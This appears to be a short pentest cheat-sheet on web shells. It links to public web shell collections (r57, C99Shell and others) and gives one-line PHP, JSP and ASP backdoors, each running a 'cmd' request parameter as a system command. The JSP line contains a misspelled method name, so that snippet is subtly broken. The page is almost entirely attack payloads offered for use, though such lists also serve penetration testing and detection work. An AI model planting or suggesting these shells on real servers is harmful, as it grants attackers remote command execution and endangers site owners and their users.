 Shells
***

https://github.com/tennc/webshell

http://r57.gen.tr/
https://github.com/KaizenLouie/C99Shell-PHP7
https://www.1337pwn.com/best-php-web-shells/


```php
<?php system($_REQUEST["cmd"]); ?>
```
```jsp
<% Runtime.getRuntime().exec(request.getParamenter("cmd")); %>
```
```asp
<% eval request("cmd") %>
```
